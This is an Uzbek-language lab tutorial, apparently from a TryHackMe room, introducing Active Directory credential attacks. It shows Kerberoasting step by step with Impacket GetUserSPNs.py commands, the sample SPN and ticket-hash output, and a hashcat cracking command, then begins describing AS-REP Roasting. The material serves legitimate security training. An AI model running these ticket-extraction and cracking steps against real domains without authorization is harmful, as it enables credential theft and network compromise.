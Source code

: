 Oldingi topshiriqlarda biz tizimga dastlabki kirish imkoni mavjud bo‘lib, tizim xotirasi yoki Windows operatsion tizimidagi turli fayllardan credential (foydalanuvchi ma’lumotlari)larni olishga harakat qilayotganimiz taxmin qilingan edi. Ammo boshqa holatlarda, tarmoq ichidagi qurbonlar tarmog‘ida credentiallarni qo‘lga kiritish uchun turli hujumlarni amalga oshirish mumkin.

Ushbu topshiriqda, credentiallarni olish uchun foydalaniladigan ba’zi Windows va Active Directory hujumlariga qisqacha kirish qilinadi. Batafsil AD hujumlariga o‘tishdan oldin, siz **Kerberos** protokoli va **New Technology LAN Manager (NTLM)** protokollar majmuasi bilan tanish bo‘lishingiz tavsiya qilinadi — ular Windowsda autentifikatsiya (foydalanuvchini tasdiqlash) uchun ishlatiladi.

---

### **Kerberoasting**

**Kerberoasting** — bu Active Directory (AD) tarmog‘ida keng tarqalgan hujum turi bo‘lib, hujumchiga AD ticket (chipta)larini olish orqali tizimda mustahkamlanish imkonini beradi. Bu hujumni amalga oshirish uchun hujumchida SPN (Service Principal Name) bo‘lgan hisoblar — masalan, `IIS`, `MSSQL` va boshqalar —ga kirish huquqi bo‘lishi kerak.

Kerberoasting hujumi quyidagicha ishlaydi:

1. Hujumchi TGT (Ticket Granting Ticket) so‘raydi.
2. So‘ngra TGS (Ticket Granting Service) ni talab qiladi.
3. Maqsad — tizimda **privilege escalation** (huquqni oshirish) va **lateral movement** (tarmoqda boshqa qurilmalarga o‘tish).

Kerberoasting bo‘yicha batafsil ma’lumot olish uchun TryHackMe’dagi **Persisting AD** xonasining 3-topshiriq bo‘limiga murojaat qilishingiz mumkin.

#### **Hujumning qisqa demo ko‘rinishi**

1. Avval SPN account(lar)ni aniqlaymiz.
2. So‘ng `TGS` ticketini olish uchun so‘rov yuboramiz.

Quyidagi buyruq bilan SPN accountlarni aniqlaymiz:

```bash
python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.201.112.212 THM.red/thm
```

> Bu yerda:
>
> * `-dc-ip` — Domain Controller manzili
> * `THM.red/thm` — domen va foydalanuvchi nomi
> * Skript parol so‘raydi

Natija quyidagicha bo‘ladi:

```
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578
```

Endi esa, `svc-user` SPN hisobiga TGS ticket olish uchun so‘rov yuboramiz:

```bash
python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.201.112.212 THM.red/thm -request-user svc-user
```

> Bu buyruq TGS ticketni beradi:

```
$krb5tgs$23$*svc-user$THM.RED$THM.red/svc-user*$8f5de4211da1cd5715217[...]7bfa3680658dd9812ac061c5
```

Endi esa, bu ticketni **Hashcat** yordamida crack qilamiz:

```bash
hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

> 🎯 Siz ham xuddi shu tartibda berilgan VM’ga hujum qilib ko‘ring, SPN foydalanuvchisini toping, TGS ticket oling va uni crack qilib parolni aniqlang.

---

### **AS-REP Roasting**

**AS-REP Roasting** — bu hujum texnikasi bo‘lib, hujumchiga “Kerberos oldindan autentifikatsiyani talab qilinmasin” (Do not require Kerberos pre-authentication) parametri yoqilgan foydalanuvchilarning credential hashlarini olish imkonini beradi.

Bu parametr eskirgan Kerberos autentifikatsiya usuliga asoslangan bo‘lib, parol talab qilinmasdan chipta beriladi. Hujumchi ushbu hashni olib, oflayn tarzda crack qilishi mumkin. Agar hash crack qilinsa — foydalanuvchi paroli aniqlanadi!
